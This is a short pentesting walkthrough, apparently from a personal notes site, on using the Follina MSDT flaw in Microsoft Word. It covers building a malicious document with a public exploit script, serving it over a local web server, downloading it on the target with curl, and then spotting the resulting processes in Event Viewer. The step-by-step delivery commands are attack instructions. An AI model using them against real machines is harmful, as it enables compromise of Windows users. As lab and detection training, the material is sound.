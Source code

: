 ```yaml
---
title: Microsoft Word Pentesting
desc: 
tags: [Follina, Microsoft, MSDT, Windows, Word]
alts: [Windows-Privilege-Escalation]
render_with_liquid: false
---
```


## 1. Follina MSDT

Microsoft Support Diagnostic Tool (MSDT) is vulnerable with Follina.

1. **Download the Payload in Local Machine**

    Clone the payload from [msdt-follina](https://github.com/JohnHammond/msdt-follina){:target="_blank"}

2. **Create the Maldoc in Local Machine**

    ```sh
    # -i: interface name
    python3 follina.py -i eth0
    ```

    Then a new maldoc named “follina.doc” will be created in the current directory.  
    Now you’ve started the web server.

3. **Open Another Web Server in Local Machine**

    Open another terminal  and move to the msdt-follina directory,  then start web server to transfer the maldoc to target machine.

    ```sh
    python3 -m http.server 3456
    ```

4. **Transfer the Maldoc to Target Machine**

    In target Windows machine, open powershell and execute the following command.

    ```sh
    cd ~/Desktop
    curl http://<local-ip>:3456/follina.doc -o follina.docx
    ```

5. **Open the Maldoc**

    In target machine, open the maldoc you transfered.

    ```sh
    .\follina.docx
    ```

6. **Check the Process Explorer of Sysinternals in Target Machine**

    Find interesting processes in the Process Explorer.

7. **Check the Event Viewer in Target Machine to Detect Suspicious Processes**

    1. **Go to "View" -> "Use Quick Filter"**

    2. **A search bar should appear on top of the logs. Choose “Find Event ID” on the right of the search bar, and enter “4688”(it means that “a new process has been created”) in a search bar.**

    3. **Open the Find (Ctrl+F) and enter “winword”. Then check the contents of results.**

    4. **Go to Options → Advanced Options**